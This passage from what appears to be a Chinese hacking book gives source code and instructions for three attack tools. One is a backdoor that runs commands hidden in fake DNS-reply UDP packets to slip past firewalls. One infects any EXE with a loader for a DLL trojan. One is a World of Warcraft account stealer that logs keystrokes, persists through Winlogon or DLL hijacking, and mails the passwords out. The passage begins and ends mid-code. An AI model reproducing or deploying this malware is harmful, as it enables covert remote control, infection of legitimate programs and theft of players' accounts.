以上程序用来设置线程函数的参数，在背景知识中，我们介绍了函数调用相关原理，也就是说一个函数在被调用之前，其参数已经被压栈。众所周知，线程函数的参数是一个 VOID 型指针，指向任意参数结构体对象，所以我们首先把参数写入目标进程地址空间 `TheTool.ConstructData(pImage, pInjectPos, (PVOID*)&pEntry, (PVOID*)&pParam);`，然后模拟压栈操作。在 Windows 系统中，栈是由高地址向低地址增长，而且每次压栈操作后，栈顶指针会比实际栈顶位置提前一个 DWORD 长度，所以我们需要使用 `cntxt.Esp -= sizeof(DWORD)*2` 调整栈顶指针的值。

```cpp
if (!SetThreadContext(hThread, &cntxt))
{
    TheTool.ErrorOut("Set Thread Context Error");
    __leave;
}
```

将设置好的 Eip、Esp 等寄存器值写入。

```cpp
if (!ResumeThread(hThread))
{
    TheTool.ErrorOut("Resume Thread Error");
    __leave;
}
```

重新开启进程。至此远程线程开启完毕，测试后一切正常。

#### 小结

需要注意一点：我们开启远程线程后，一旦主线程函数返回（也就是对应 `pEntry` 的远程线程），整个进程即宣告结束。此刻即便有其他线程未结束，也是会一并退出的，希望大家注意。

【本文涉及的代码（程序），请见随书光盘】

### 穿过防火墙的 Shell 后门

文／图 lik2


记得 zwell 大侠在《一种新的穿透防火墙的数据传输技术》中提到通过直接控制 DNS 进程来实现数据穿透防火墙的传输，基本步骤是：

- 1. 找出目标进程
- 2. 找出 SOCKET 句柄
- 3. 用 DuplicateHandle() 函数将其 SOCKET 转换为能被自己使用
- 4. 用转换后的 SOCKET 进行数据传输。

但是由于诸多原因，编程实现起来很复杂。通过对主流防火墙的分析，发现防火墙对 DNS 查询数据报过滤不严格。就拿天网防火墙来说吧，规则如下，如图 1 所示。


不管源 IP 地址是什么，只要源端口是 53 的 UDP 数据报都会顺利通过防火墙。虽然能够正常通过防火墙，却不能直接通过监听目的端口来接收这些数据报，因为应用程序成为网络服务也是要经过防火墙审核的。我们可以通过使用原始套接字监听网卡，实现对数据报的接收。以下是接收程序的设计：

```cpp
// sniffer.cpp : Defines the entry point for the console application.

#include "stdafx.h"
#include <stdio.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include "mstcpip.h"
#include <string.h>
#include <shellapi.h>
#include <stdlib.h>
#pragma comment(lib,"WS2_32")

// 定义 IP 头
typedef struct IPPacketHead {
  unsigned char h_len:4;
  unsigned char h_ver:4;
  unsigned char tos;
  unsigned short total_len;
  unsigned short ident;
  unsigned short frag_and_flags;
  unsigned char ttl;
  unsigned char proto;
  unsigned short checksum;
  unsigned int sourceIP;
  unsigned int destIP;
} IPHeader;

// 定义 UDP 头
typedef struct UDPPacketHead {
  unsigned short SourPort;
  unsigned short DestPort;
  unsigned short Len;
  unsigned short ChkSum;
} UDPHeader;

// 定义 CMDSHELL 结构体
typedef struct _CMDSHELL {
  unsigned long id;
  char cmd[255];
} CMDSHELL;

int main(int argc, char* argv[]) {
  if(argc!=2) {
    printf("by likz\nQQ:66734111\n");
    printf("usage:shell -h 运行时隐藏界面\n");
    printf("usage:shell -s 运行时显示界面\n");
    return 0;
  }

  // 用来隐藏程序界面
  HWND h=GetForegroundWindow();
  if(h==NULL) {
    printf("hide error !!");
    return 0;
  }
  ShowWindow(h,SW_HIDE);
}
```

这里需要说明的是：Windows XP SP2 是支持原始 IP 套接字的，所以程序可以很好地在 Windows XP SP2 平台上工作，剩下的工作就是通过构造伪装成 DNS 回应信息的 UDP 数据报来实现命令字符串的发送了。具体实现如下：

```cpp
h=NULL;
}
WSADATA wsadata;
WSAStartup(MAKEWORD(1,1),&wsadata);
SOCKET s;
s=socket(AF_INET,SOCK_RAW,IPPROTO_IP);
// 建立原始 IP 套接字
BOOL flag=TRUE;
setsockopt(s,IPPROTO_IP,IP_HDRINCL,(char*)&flag,sizeof(flag));
char hostname[255]={0};
// 得到本机名
gethostname(hostname,255);
struct hostent *host;
host=gethostbyname(hostname);
struct sockaddr_in local;
local.sin_port=htons(7000);
local.sin_family=AF_INET;
memcpy(&local.sin_addr.S_un.S_addr,host->h_addr_list[0],host->h_length);
bind(s,(sockaddr*)&local,sizeof(local));
DWORD dwSet=1;
// 将网卡设置成混杂模式
ioctlsocket(s,SIO_RCVALL,&dwSet);
char buffer[65535]={0};
if(WSAGetLastError()!=0)
{
printf("产生错误:%d",WSAGetLastError());
closesocket(s);
WSACleanup();
}
printf("开始监听.....\n");
// 开始循环接受数据报
for(;recv(s,buffer,65535,0)>1;memset(buffer,0,65535))
{
IPHeader *pIp=(IPHeader*)buffer;
// 数据包非 UDP 协议，接受下一个数据报
if(pIp->proto!=IPPROTO_UDP)continue;
in_addr addr;
addr.S_un.S_addr=pIp->sourceIP;
unsigned char *pOffset;
pOffset=(unsigned char *)pIp;
pOffset+=pIp->h_len*4;
UDPHeader *pUdp=(UDPHeader*)pOffset;
// 源端口非 53，继续接受下一个数据包
if(pUdp->SourPort!=htons(53))continue;
// 跳过 UDP 数据报头
pOffset+=8;
CMDSHELL *cmd=(CMDSHELL *)(pOffset);
// 数据报不是发送的命令数据报，继续接受下一个数据包
if(cmd->id!=0x74657374)continue;
printf("Saddr:%s",inet_ntoa(addr));
printf(" Cmd:%s \n",cmd->cmd);
// 执行接收到的命令
system(cmd->cmd);
printf("\n");
}
closesocket(s);
WSACleanup();
return 0;
}
```

```cpp
// UdpSend.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <winsock.h>
#pragma comment(lib,"WS2_32")
// 定义发送的命令结构体
typedef struct _CMDSHELL
{
unsigned long id; // 标识符
char cmd[255]; // 命令字符串
} CMDSHELL;
int main(int argc, char* argv[])
{
if(argc!=3)
{
printf("wrote by likz\n");
printf("QQ:66734111\n");
printf("usage: exec ip cmd");
printf("\n");
return 0;
}
WSADATA wsadata;
::WSAStartup(MAKEWORD(1,1),&wsadata);
SOCKET s;
// 建立 UDP 套接字
s=socket(AF_INET,SOCK_DGRAM,0);
char hostname[255];
gethostname(hostname,255);
hostent *h=gethostbyname(hostname);
sockaddr_in l;
memcpy((unsigned char *)&l.sin_addr.S_un.S_addr,h->h_addr_list[0],4);
h=gethostbyname(argv[1]);
CMDSHELL cmd={0};
// 标志位，设置为 "test"，使服务端识别出发送的命令结构体
cmd.id=0x74657374;
// 填充命令字符串
strcpy(cmd.cmd,argv[2]);
l.sin_family=AF_INET;
l.sin_port=htons(53);
bind(s,(sockaddr *)&l,sizeof(l));
sockaddr_in r;
memcpy((unsigned char *)&r.sin_addr.S_un.S_addr,h->h_addr_list[0],4);
r.sin_family=AF_INET;
r.sin_port=htons(80);
// 发送命令结构体
sendto(s,(char *)&cmd,sizeof(cmd),0,(sockaddr *)&r,sizeof(r));
if(WSAGetLastError()!=0)
{
printf("发生错误:%d",WSAGetLastError());
closesocket(s);
WSACleanup();
}
}
```

```c
printf("发送成功!");
closesocket(s);
WSACleanup();
return 0;
}
```

我们编译运行一下，先运行服务端，然后客户端就可以发送命令字符串了，如图2所示。

大家看到没有，服务端程序运行不会引起防火墙的报警，程序可以轻松地穿过防火墙实现数据的单向传输，并且服务端程序并没有打开任何端口，实现无进程也非难事。真是杀人于无形！遗憾的是后门不能回显命令执行结果，但毕竟实现对防火墙内部主机的控制了。本程序在 Windows XP SP2 + Visual C++ 6.0 下编译通过。


图2

> 【本文涉及的代码（程序），请见随书光盘】

## 把绑定任意可执行文件做木马

文/图 刘奇

本文就 DLL 木马的启动提供一种隐蔽的方法，作为对《黑客防线》杂志上《隐藏的木马启动方法》一文的补充。

我们知道 DLL 木马必须由 EXE 文件来加载。加载 DLL 木马最隐蔽的方法是使用一个正常的程序作为载体，无疑这种启动方式是非常隐蔽的。目前采用这种方式的典型木马有黑客之门，其采用的方法是修改引入表。而本文采用的方式是给 EXE 文件增加一个新节，并且在增加的新节里写入启动 DLL 木马的代码。由于需要在不同的平台下使用（不同的 Windows 版本），所以函数的地址需要动态确定，然而重定位写起来比较麻烦，这里我采用 ShellCode 常用的方法。

- 1. 增加一个新节；
- 2. 写入启动代码。

增加一个新节需要增加原来文件的大小，我使用纯 C 来实现，方法是定位到文件尾部，写入一个节的数据，数据全部是零。还是来看具体代码（节选）吧：

```c
#define EXTRA_CODE_LENGTH 18   // 附加代码长度
#define SECTION_SIZE 0x1000    // 增加的节的大小
#define SECTION_NAME ".ngaut"  // 增加的节的名字
#define FILE_NAME_LENGTH 30    // 文件名最大长度(包括路径)

// 对齐函数
int Align(int size, int ALIGN_BASE)
{
    ...
}
```

……省略部分代码……

```c
// 程序用法
void usage()
{
    printf("用法:\n");
    printf("LoadBackDoor.exe FileName\n");
    printf("eg:\n");
    printf("\tLoadBackDoor.exe test.exe\n");
    printf("Coded by: 刘奇 ...\n");
}

int main(int argc, char *argv[])
{
    IMAGE_DOS_HEADER DosHeader;
    // ...
}
```

```c
IMAGE_NT_HEADERS NtHeader;
IMAGE_SECTION_HEADER SectionHeader;
IMAGE_SECTION_HEADER newSectionHeader; // 新增加的节的节头
int numOfSections;      // 节的个数
FILE *pNewFile;
int FILE_ALIGN_MENT;
int SECTION_ALIGN_MENT;
char srcFileName[FILE_NAME_LENGTH];   // 源文件名
char newFileName[FILE_NAME_LENGTH];   // 修改后的文件名
int i;
int extraLengthAfterAlign;
unsigned int newEP;   // 新入口点
unsigned int oldEP;   // 原入口点
BYTE jmp;
char *pExtra_data;
int extra_data_real_length;  // 附加代码的实际长度

if (NULL == argv[1]) {
    puts("参数错误\n");
    usage();
    exit(0);
}
strcpy(srcFileName, argv[1]);
strcpy(newFileName, srcFileName);
strcat(newFileName, ".exe");

// 复制一份，防止误操作
if (!CopyFile(srcFileName, newFileName, FALSE)) {
    puts("Copy file failed");
    exit(0);
}

// 打开新文件，文件名为原来的文件名 + .exe
pNewFile = fopen(newFileName, "rb+");
if (NULL == pNewFile) {
    puts("Open file failed");
    exit(0);
}

fseek(pNewFile, 0, SEEK_SET);
// 读取 IMAGE_DOS_HEADER
fread(&DosHeader, sizeof(IMAGE_DOS_HEADER), 1, pNewFile);
if (DosHeader.e_magic != IMAGE_DOS_SIGNATURE) {
    puts("Not a valid PE file");
    exit(0);
}

// 先定位到 PE 文件头，然后读取 IMAGE_NT_HEADERS
fseek(pNewFile, DosHeader.e_lfanew, SEEK_SET);
fread(&NtHeader, sizeof(IMAGE_NT_HEADERS), 1, pNewFile);
if (NtHeader.Signature != IMAGE_NT_SIGNATURE) {
    puts("Not a valid PE file");
    exit(0);
}

// 到这里，该文件就算是被验证过了——合法的 PE 文件
```

```c
numOfSections = NtHeader.FileHeader.NumberOfSections;
FILE_ALIGN_MENT = NtHeader.OptionalHeader.FileAlignment;
SECTION_ALIGN_MENT = NtHeader.OptionalHeader.SectionAlignment;

// 保存原来的入口备用
oldEP = NtHeader.OptionalHeader.AddressOfEntryPoint;

// 定位到最后一个 SectionHeader
for (i = 0; i < numOfSections; i++) {
    fread(&SectionHeader, sizeof(IMAGE_SECTION_HEADER), 1, pNewFile);
}

// 增加一个新节前的准备工作
extraLengthAfterAlign = Align(EXTRA_CODE_LENGTH, FILE_ALIGN_MENT);
NtHeader.FileHeader.NumberOfSections++;   // 节的总数加一

memset(&newSectionHeader, 0, sizeof(IMAGE_SECTION_HEADER));
strncpy(newSectionHeader.Name, SECTION_NAME, strlen(SECTION_NAME));

// 修正 VirtualAddress 和 VirtualSize（通过对齐 SECTION_ALIGN_MENT）
newSectionHeader.VirtualAddress = Align(
    SectionHeader.VirtualAddress + SectionHeader.Misc.VirtualSize,
    SECTION_ALIGN_MENT);
newSectionHeader.Misc.VirtualSize = Align(extraLengthAfterAlign, SECTION_ALIGN_MENT);

// 修正 PointerToRawData
newSectionHeader.PointerToRawData = Align(
    SectionHeader.PointerToRawData + SectionHeader.SizeOfRawData,
    FILE_ALIGN_MENT);

// 修正 SizeOfRawData
newSectionHeader.SizeOfRawData = Align(SECTION_SIZE, FILE_ALIGN_MENT);

// 修改新节的属性
newSectionHeader.Characteristics = 0xE0000020; // 可读可写可执行

// 修正 NtHeader
NtHeader.OptionalHeader.SizeOfCode = Align(
    NtHeader.OptionalHeader.SizeOfCode + SECTION_SIZE,
    FILE_ALIGN_MENT);

NtHeader.OptionalHeader.SizeOfImage = NtHeader.OptionalHeader.SizeOfImage
    + Align(SECTION_SIZE, SECTION_ALIGN_MENT);

NtHeader.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].VirtualAddress = 0;
NtHeader.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].Size = 0;

fseek(pNewFile, 0, SEEK_END);
```

## 木马后门类

```c
newEP = newSectionHeader.VirtualAddress;
NtHeader.OptionalHeader.AddressOfEntryPoint = newEP;
// 定位节表尾部
fseek(
  pNewFile,
  DosHeader.e_lfanew + sizeof(IMAGE_NT_HEADERS)
  + numOfSections * sizeof(IMAGE_SECTION_HEADER),
  SEEK_SET
);
// 写入修正后的节头
fwrite(&newSectionHeader, sizeof(IMAGE_SECTION_HEADER), 1, pNewFile);
// 写入修正后的PE文件头(NT头)
fseek(pNewFile, DosHeader.e_lfanew, SEEK_SET);
fwrite(&NtHeader, sizeof(IMAGE_NT_HEADERS), 1, pNewFile);
// 定位到文件尾部
fseek(pNewFile, 0, SEEK_END);
// 写入新节，这里先写入0
for(i=0; i<Align(SECTION_SIZE, FILE_ALIGN_MENT); i++) {
  fputc(0, pNewFile);
}
// 定位到新节的开头
fseek(pNewFile, newSectionHeader.PointerToRawData, SEEK_SET);
// 如果不理解这里，可以参考《ShellCode自动化提取的设计与实现》
goto GetExtraData;
extra_data_start:
__asm pushad
```

```c
fputc(pExtra_data[i], pNewFile);
}
oldEP = oldEP - (newEP + extra_data_real_length) - 5;
jmp = 0xE9;
// 写入JMP oldEP语句
fwrite(&jmp, sizeof(jmp), 1, pNewFile);
fwrite(&oldEP, sizeof(oldEP), 1, pNewFile);
fclose(pNewFile);
return 0;
}
```

测试 DLL 木马，以显示一个 MessageBox 为例，测试时木马要和测试程序在同一目录。程序运行如图1所示。


图1

……省略部分代码……

```c
__asm call [ebp + 40h]
// 返回值(即LoadLibrary的地址)保存在eax中
__asm mov [ebp + 44h], eax
// 保存LoadLibrary的地址到ebp + 44h
__asm push 0x0
// 在堆栈中构造DLL木马的名字，如这里的"BackDoor"
__asm push DWORD PTR 0x726f6444  // "Door"
__asm push DWORD PTR 0x6b636142  // "Back"
__asm push esp  // 字符串"BackDoor"的地址
__asm call [ebp + 44h]
// 调用LoadLibrary，这里使用call eax也可以
__asm mov esp, ebp
__asm add esp, 0x50
__asm popad
extra_data_end:
GetExtraData:
__asm pushad
__asm lea eax, extra_data_start
__asm mov pExtra_data, eax
__asm lea edx, extra_data_end
__asm sub edx, eax
__asm mov extra_data_real_length, edx
__asm popad
// 写入附加数据(用于启动DLL木马)
for(i = 0; i < extra_data_real_length; i++) { ... }
```

运行 flashget.exe 可以看到我们的 DLL 木马已经启动了，如图2所示。注意看下面的图标，已经是 flashget 的图标了。

现在可以让我们的 DLL 木马无拘无束地跟随（感染）QQ、flashget 等任何一个合法的程序了。使用方法：“pe target.exe”。target.exe 是我们要感染的文件名，复制后门 BackDoor.dll 到 target.exe 所在的目录就可以了。如果 target.exe 被防火墙允许访问网络，那么我们的 BackDoor.dll 也可以自由自在地访问网络了。


图2

Socket：越来越多的人迷上了网络游戏，又时常听到玩家账号被盗。虽然凭借一定的手段还可以找回自己的账号，但是找回来的也就仅仅是一个账号；很多人并不知道木马的实现原理，今天，就让我们一起来看看一款魔兽木马如何被制造出来的吧！

## 魔兽盗号木马DIY


文／图 langouster（江苏大学信息安全系）

听说最近 WTF 迷上了魔兽世界，我们也一起来研究一下魔兽世界，学习魔兽世界的密码窃取和保护技术。希望能以此提高游戏玩家的安全意识，提升魔兽世界的安全档次。

先简单地对魔兽世界进行了一些测试，发现其并没有对消息钩子进行防范，我们就可以利用它来编写魔兽世界木马。为了使我们的小马更加隐蔽，我把它写成了一个 DLL 文件。关于它的启动方法，我提供了两种方式让用户来选择，如图1所示。

安装程序只有 6.97KB，足可用来网页挂马。有了上面的说明再来理解下面的程序就不难了。

#### 主程序编写

先讲 DLL 主程序。DLL 加载的时候先保存一下 DLL 句柄，然后创建一个线程来开始正式的工作。

```c
BOOL APIENTRY DllMain(HINSTANCE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH: // 在dll加载到进程时运行
        g_module = hModule;
        CreateThread(NULL,0,start,0,0,0);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


图1

其中木马自启动采取的是 Winlogon 通知包技术。具体细节是在“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\”下新建一项 langouster（名称任意），系统启动的时候会检查该项下面有没有 DllName 这一键值名称，有则自动将 DLL 加载到 Winlogon 进程中。用这种方法比传统的 Rundll32 或服务的方式更隐藏。我们的小马用到了 3 个程序：一个 DLL 主程序，一个安装程序 Setup.exe（发给玩家），还有一个就是图1中的配置程序。DLL 文件先以资源的形式包含到安装程序 Setup.exe 中，Setup.exe 又以资源的形式包含到了配置程序中。

在 `DWORD WINAPI start(LPVOID lpParameter)` 中，我们先来判断一下自己的宿主进程名是 Winlogon.exe 还是 Wow.exe（魔兽世界的进程）。在 Winlogon.exe 进程中，我们新建一个线程来反复地写注册表，可以防止启动项被删除。

```c
DWORD WINAPI WriteReg(LPVOID lpParameter) // 反复写注册表和检测dll文件
{
    char syspath[MAX_PATH];
    HKEY key;
    DWORD disposition;
    char aa[]="\x01\x00\x00\x00";
    char bb[]="\x00\x00\x00\x00";
    GetModuleFileName(g_module,syspath,MAX_PATH-1);
    // 写注册表
    while(1) {
        ...
    }
}
```

```c
RegCreateKeyEx(HKEY_LOCAL_MACHINE,
"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify\\langouster",0,"",
REG_OPTION_NON_VOLATILE,KEY_ALL_ACCESS,NULL,
&key,&disposition);
RegSetValueEx(key,"DllName",0,REG_SZ,(BYTE*)syspath,
strlen(syspath)+1);
RegSetValueEx(key,"Asynchronous",0,REG_DWORD,(BYTE*)aa,4);
RegSetValueEx(key,"Impersonate",0,REG_DWORD,(BYTE*)bb,4);
RegSetValueEx(key,"StartShell",0,REG_SZ,(BYTE*)"langouster",10);
RegCloseKey(key);
Sleep(5000);
return 0;
```

不过因为基于 NT 内核的平台中的 Copy-On-Write 系统机制，所以我们先要以独占的方式打开文件 `OpenFile(dllpath,&ofstruct,OF_READ|OF_SHARE_EXCLUSIVE)`。

> Copy-On-Write 系统机制允许用户对正在运行的文件重命名，一旦 DLL 文件被重命名，自然我们的木马就无法启动了。

现在其他进程就没法对我们的 DLL 文件做任何操作了，当然如果是与 IFS 直接打交道的驱动，那就另当别论了。接下来要做的事就是反复地枚举有没有 Wow.exe 进程，如果找到了就采用远程线程注入的方法把 DLL 注入到 Wow.exe 中。另如果判断得到宿主进程是 Wow.exe，我们就可以挂上一个消息钩子：`g_goalhook=SetWindowsHookEx(WH_GETMESSAGE,goalhook,g_module,GetWindowThreadProcessId(FindWindow(NULL, goal_window),&processid))`，goalhook 是处理各种消息事件的函数，这里我们只对键盘和鼠标消息感兴趣。

```c
if(ncode==HC_ACTION)
{
    switch(pmsg->message)
    {
    case WM_LBUTTONUP:
        mouse_x=LOWORD(pmsg->lParam);
        mouse_y=HIWORD(pmsg->lParam);
        if(compare_xy(mouse_x,mouse_y,348,361,461,380))
        {
            position=len=0;
            IsUsername=false;
        }
```

当前的输入焦点在账号框，否则在密码输入框。

```c
else
if(compare_xy(mouse_x,mouse_y,348,412,456,426)) // 单击了提交按钮
    CreateThread(NULL,0,Submit,0,0,0); // submit函数把玩家的账号密码发送给我们
break;
case WM_KEYDOWN:
    if(LOWORD(LOWORD(pmsg->wParam))==VK_RETURN) // 玩家按下了回车键
    {
        CreateThread(NULL,0,Submit,0,0,0);
    }
    else
    {
        VirtKey=(int)(pmsg->wParam);
        GetKey(VirtKey); // 处理按键函数
    }
    break;
default:
    break;
}
```

玩家一般用鼠标来选择输入焦点以及单击“提交”按钮，用键盘来输入账号密码，以及一些功能键，如回车、TAB、Backspace、光标键等。对这些功能键的处理与否直接关系到得到的账号密码的正确性。先判断是不是回车键，在不是回车键的前提下来处理其他功能键，我写了一个函数：

```c
void ExecuteCmd(char key_char) // 处理键盘上的光标、back delete tab键
{
    char *nameorpword; // 暂时存放账号或密码
    int i;
    if(IsUsername)
        nameorpword=username;
    else
        nameorpword=password;
    switch(key_char)
    {
    case 'b': // backspace键
        if(position==0) break;
        if(len==position)
        {
            position--;
            len--;
            *(nameorpword+position)='\0';
        }
        else
        {
            for(i=position-1;i<len-1;i++)
                *(nameorpword+i)=*(nameorpword+i+1);
            position--;
            len--;
        }
        break;
    case 't': // tab键 从账号输入框移到密码输入框
        position=len=0;
        IsUsername=false;
        break;
    case 'd': // delete键 跟Backspace键的处理相似
        if(position!=len){
            for(i=position;i<len;i++)
                *(nameorpword+i)=*(nameorpword+i+1);
            len--;
        }
        break;
    case 'l': // "<-" 键
        if(position!=0) position--;
        break;
    case 'r': // right
        if(position!=len) position++;
        break;
    default:
        break;
    }
}
```

```cpp
handle=FindFirstFile(wowpath2,&finddata);
if(handle==INVALID_HANDLE_VALUE) return;
if(((finddata.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
    && (strchr(finddata.cFileName,'.')==NULL)
    && (strcmp(finddata.cFileName,"SavedVariables")!=0)))
    strcpy(servername,finddata.cFileName);
else
    while(FindNextFile(handle,&finddata)){
        if(((finddata.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
            && (strchr(finddata.cFileName,'.')==NULL)
            && (strcmp(finddata.cFileName,"SavedVariables")!=0))) {
            strcpy(servername,finddata.cFileName);
            break;
        }
    }
CloseHandle(handle);
```

对于盗号者来说，用一个盗号器仅仅得到账号和密码是远远不够的，至少总得知道得到的是几区的账号吧？魔兽世界还好，总共也就 6 个区，要换成传奇，一百来个区总不能一个一个试。我们的小马现在还只能得到区号、服务器以及角色名，这也算是一个不小的缺陷，如有可能希望能在下一版本中改进。本来我打算用读内存的方法来得到这些信息，在看了 4 天的十六进制加乱码之后我决定放弃这种方法。后来我想到了一种更简单的方法，先来看一下魔兽世界目录下的几个有意思的文件：launcher.ini 文件和 WTF 文件夹（Socket，此 WTF 非 WTF……）。

打开 launcher.ini 文件看到第一行写着“cn6.grunt.wowchina.com”。原来 Launcher.exe 把服务器区号写在 launcher.ini 中，WoW.exe 程序运行时再去 launcher.ini 中读出。再来看一看 WTF 文件夹，如图 2 所示。


图2

其中 LANGOUSTER 是我的账号，破碎岭是服务器名，Langouster 是游戏中的角色名，所以我们只要看看 WTF 文件夹下面有什么文件就能得到我们想要的信息。方法太简单了，这里只简单地说一下如何得到服务器名，其他的请看光盘中源程序。

得到了账号和密码，下一步就是把这些宝贵的信息发给我们了。常用的方法有两种：邮件发送和利用动态网页。两种方法各有优缺点，许多杀毒软件和防火墙对邮件发送比较敏感，容易导致邮件发送失败；而采用动态网页的方法因为访问的是 80 端口，相对不会引起反病毒软件的注意，但是现在要申请一个免费的 ASP 空间太难了，我这里只采用邮件发送的方法。要发邮件就要有用户名和密码，我们用下面的代码来提取，如图 3 所示。


图3

```cpp
char SendStr[100]={0},Mailname[30]={0},Mailpword[30]={0};
char readstr[]="...";
char tempchar[30]={0};
key=atoi(&(readstr[strlen(readstr)-1]));
strcpy(tempchar,readstr);
strcpy(Mailname,strtok(readstr,"|"));
strcpy(tempchar,strstr(tempchar,"|"));
strcpy(Mailpword,strtok(tempchar,"|"));
strcpy(SendStr,"账号:");
strcat(SendStr,username);
strcat(SendStr,"\n密码:");
strcat(SendStr,password);
```

```c
if(strcmp(SendStr,SendStr2)!=0) // 防止重复发送
{
    strcpy(SendStr2,SendStr);
    SendMail(Mailname,Mailpword,SendStr); // 发送邮件函数
}
```

上面的代码可能会很令人费解，readstr 明明只是一串“aaa……”怎么能提取出邮箱的用户名和密码呢？在图 1 中我们已经可以看到用户名和密码是可以配置的，而此 DLL 文件说到底是以资源的形式包含在配置程序中的，在配置程序中我们读出资源，找到“aaa……”这串字符串，用真正的邮箱用户名和密码替换掉“aaa……”，格式是“用户名||密码”。在真正的程序中我用了一些简单的算法对它进行了加密，不然被玩家发现，“赔了夫人又折兵”可不好。

考虑到一些问题，这个可爱的小马可以以 DLL 转发的方式工作，连写注册表都不用。这样我们就不怕 C 盘被还原了，特别适合在网吧使用。为此先来说一下魔兽世界的工作机制，在 Wow.exe 运行时它会加载同一目录下的 DivxDecoder.dll，用 Dependency Walker 查看，发现它导出了 4 个函数，如图 4 所示。

| Ordinal | Hint | Function | Entry Point |
|---|---|---|---|
| 1 (0x0001) | 0 (0x0000) | DivxDecode | 0x000011C0 |
| 2 (0x0002) | 1 (0x0001) | InitializeDivxDecoder | 0x00001000 |
| 3 (0x0003) | 2 (0x0002) | SetOutputFormat | 0x00001050 |
| 4 (0x0004) | 3 (0x0003) | UnInitializeDivxDecoder | 0x000011F0 |

图4

导出的函数比较少，我们只要把 DivxDecoder.dll 改为 Unicode.dll，然后在 dll 源程序的开头加上如下语句。

```c
#pragma comment(linker,"/export:DivxDecode=unicode.DivxDecode")
#pragma comment(linker,"/export:InitializeDivxDecoder=unicode.InitializeDivxDecoder")
#pragma comment(linker,"/export:SetOutputFormat=unicode.SetOutputFormat")
#pragma comment(linker,"/export:UnInitializeDivxDecoder=unicode.UnInitializeDivxDecoder")
```

再把自己的 DLL 改成 DivxDecoder.dll，当魔兽世界启动时加载的就是我们的 DLL。而当它需要那 4 个函数时，我们去同一目录下 Unicode.dll（也就是原来的 DivxDecoder.dll）中寻找。为了隐蔽，我们把 Unicode.dll 的属性设为隐藏、系统，当然最好再改一改文件的修改时间。这一切是由我们的安装程序 Setup.exe 实现的，也就是那个只有 6.97KB 的程序。

#### 安装程序编写

下面我来讲一下安装程序 Setup.exe，它把主程序 DLL 以二进制资源的形式包含进来，根据不同的安装方式动态地生成 DLL。入口函数如下：

```c
int APIENTRY WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine, int nCmdShow)
{
    HRSRC hrsrc1;
    HGLOBAL hglobal1;
    DWORD size,len;
    char sele[20]="dlldlldll",*hmem;
    hrsrc1=FindResource(NULL, MAKEINTRESOURCE(IDR_BIN1), "BIN");
    size=SizeofResource(NULL, hrsrc1);
    hglobal1=LoadResource(NULL, hrsrc1);
    hmem=(char *)malloc(size+1);
    WriteProcessMemory(GetCurrentProcess(),hmem,
        (LPCVOID)LockResource(hglobal1),size,&len);
    if(strcmp(sele,"REGREGREG")==0)
        setup_reg(hmem,size);
    else if(strcmp(sele,"DLLDLLDLL")==0)
        setup_dll(hmem,size);
    free(hmem);
    GlobalFree(hglobal1);
    return 0;
}
```

与前面的“aaa……”相似，在此函数中我们定义了一个变量 `sele[20]="d|d|d|d|d|"`，用“DLLDLLDLL”表示采用 DLL 转发方式安装，用“REGREGREG”表示采用注册表方式安装。若用户选择用 DLL 转发安装，在配置程序中就已把“d|d|d|d|d|”改成了“DLLDLLDLL”，否则改成“REGREGREG”。

- `setup_dll()` 函数完成以下 3 步：
  1. 从注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Blizzard Entertainment\World of Warcraft\InstallPath` 读出魔兽世界安装路径；
  2. 将魔兽世界安装目录中的 DivxDecoder.dll 重命名为 Unicode.dll，并改变文件属性为“系统”“隐藏”（最好改一下文件的修改时间）；
  3. 将读到内存中的 dll 文件数据写到魔兽世界目录下的 DivxDecoder.dll。

```c
void setup_dll(char *hmem,DWORD size)
{
    char wowpath[MAX_PATH]={0},dllpath[MAX_PATH],
         newdllpath[MAX_PATH];
    HANDLE hFile;
    DWORD len;
    readpath(wowpath);
    strcpy(dllpath,wowpath);
    strcat(dllpath,"DivxDecoder.dll");
    strcpy(newdllpath,wowpath);
    strcat(newdllpath,"Unicode.dll");
    if(MoveFile(dllpath,newdllpath))
    {
        ...
    }
}
```

```cpp
SetFileAttributes(newdllpath,
    FILE_ATTRIBUTE_HIDDEN|FILE_ATTRIBUTE_SYSTEM); // 把 Unicode.dll 的文件属性改成隐藏、系统
hFile = CreateFile(dllpath,GENERIC_WRITE,0,NULL,
    CREATE_NEW,0,NULL); // 写入资源文件
if(INVALID_HANDLE_VALUE!=hFile)
{
    WriteFile(hFile,(LPCVOID)hmem,size,&len,NULL);
    CloseHandle(hFile);
}
```

```cpp
strcpy(to,"REGREGREG");
result=ModifyFile(hmem,size,from,to);

hFile = CreateFile(path,GENERIC_WRITE,0,NULL,
    CREATE_ALWAYS,0,NULL);
WriteFile(hFile,(LPCVOID)hmem,size+1,&size2,NULL);
CloseHandle(hFile);
GlobalFree(hglobal);
free(hmem);
```

- `setup_reg()` 函数完成以下 2 步：
  1. 在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify` 下新建一项 `langouster`，使系统重启后自动加载木马；
  2. 将读到内存中的 DLL 文件数据写到系统路径下的 `Desktop.dll`，并将文件属性设为“系统”“隐藏”（最好修改文件修改时间）。

再来说一下修改内存函数 `ModifyFile(hmem,size,from,to)`，它把 from 表示的字符串改为 to 表示的字符串。

```cpp
bool ModifyFile(char *hmem,int len,char *from,char *to)
{
    char charf[100], chart[100], *charg;
    bool result=false;
    strcpy(charf,from);
    strcpy(chart,to);
    for(int i=0;i<len;i++)
    {
        charg=(char *)&hmem[i];
        if(strcmp(charg,charf)==0)
        {
            if(WriteProcessMemory(GetCurrentProcess(),
